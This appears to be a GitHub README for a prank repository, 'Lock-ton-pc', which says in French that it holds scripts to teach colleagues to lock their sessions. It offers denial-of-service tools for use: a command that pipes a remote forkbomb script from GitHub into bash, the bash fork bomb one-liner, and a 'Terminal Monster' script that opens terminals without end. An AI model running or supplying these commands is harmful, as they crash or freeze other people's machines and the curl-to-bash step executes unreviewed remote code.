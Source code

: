 # Lock-ton-pc
quelque script pour apprendre à ses collègues à fermer leur session.

## Forkbomb

Denial of service attack wherein a process continually replicates ifself to deplete available system recources, slowding down or crashing the system.

get the content and execute the script :

```
curl https://raw.githubusercontent.com/wagnerwave/Lock-ton-pc/master/forkbomb.sh | bash -

```

or excute on a terminal :

```
:(){ :|:& };:

```

## Terminal Monster

Opens terminal at infinity. [work with gnome-terminal]

```
chmod +x Terminal-Monster.sh
./Terminal-Monster.sh
```
